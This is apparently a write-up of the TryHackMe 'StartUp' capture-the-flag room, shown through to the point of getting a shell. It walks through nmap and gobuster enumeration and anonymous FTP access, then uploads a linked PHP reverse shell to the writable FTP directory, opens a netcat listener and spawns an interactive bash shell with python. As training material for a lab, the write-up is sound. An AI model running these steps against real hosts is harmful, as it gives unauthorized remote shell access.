

<a href="https://tryhackme.com/room/startup">
<h1>StartUp</a>
</h1>

Greetings felow hacker!

Let's start with enumeration first!

<pre><code>
$ nmap -sC -sV -oN nmap/init 10.10.104.34
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-18 14:27 EST
Nmap scan report for 10.10.104.34
Host is up (0.043s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.20.116
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
</pre></code>

There are 3 ports open:

<ul> 
<li> 21 (FTP)</li>
<li> 22 (SSH)</li>
<li> 80 (HTTP)</li>
</ul>

Note that we can login into FTP as Anonymous and that directory ftp is writable (important later in the room)! 

Let's login and explore a bit.

<pre><code>
$ ftp 10.10.104.34              
Connected to 10.10.104.34.
220 (vsFTPd 3.0.3)
Name (10.10.104.34:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
-rw-r--r--    1 0        0               5 Nov 12 04:53 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> get .test.log
local: .test.log remote: .test.log
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .test.log (5 bytes).
226 Transfer complete.
5 bytes received in 0.00 secs (6.9854 kB/s)
ftp> get notice.txt
local: notice.txt remote: notice.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (1.9073 MB/s)
ftp> get important.jpg
local: important.jpg remote: important.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.21 secs (1.1223 MB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> exit
221 Goodbye.
</pre></code>

It's a good practice to use <code>ls -la </code> in order to view hidden files and to see permissions.

<pre><code>
$ cat .test.log 
test
</pre></code>
<pre><code>
$ cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
</pre></code>

Nice, lets write down potencial username Maya.

Change <code>important.jpg</code> to <code>important.png</code> to view one of "these damn Among Us memes"!.

Let's check the website on port 80 too!

If we check source code we see something.

<pre><code>
 &lt;h1&gt;No spice here!&lt;/h1&gt;
    &lt;div&gt;
	&lt;!--when are we gonna update this??--&gt;
</pre></code>

There is nothing that would help use here so let's do a gobuster scan. Maybe it finds something.

<pre><code>
$ gobuster dir -u http://10.10.104.34/ -w /opt/wordlists/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.104.34/
[+] Threads:        10
[+] Wordlist:       /opt/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/18 15:23:59 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/<b><---REDACTED---></b> (Status: 301)
/server-status (Status: 403)
===============================================================
2020/11/18 15:25:28 Finished
===============================================================
</pre></code>

After moving to the newly discovered directory it clearly shows the ftp server!

And if we remember from our nmap scan ftp folder is WRITABLE!! That means we can upload reverse shell and get into the machine!

I will be using <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">pentest monkey’s php reverse shell</a> and upload it to ftp.

<pre><code>
$ ftp 10.10.104.34
Connected to 10.10.104.34.
220 (vsFTPd 3.0.3)
Name (10.10.104.34:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put reverse-shell.php
local: reverse-shell.php remote: reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5490 bytes sent in 0.00 secs (141.5046 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5490 Nov 18 20:55 reverse-shell.php
226 Directory send OK.
ftp> exit
221 Goodbye.
</pre></code>

Next set up a netcat connection and execute php reverse shell on the website

<pre><code>$ nc -lvnp &lt;port&gt; </code></pre>

Lets get a fully interactive shell.

<pre><code>
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
</pre></code>
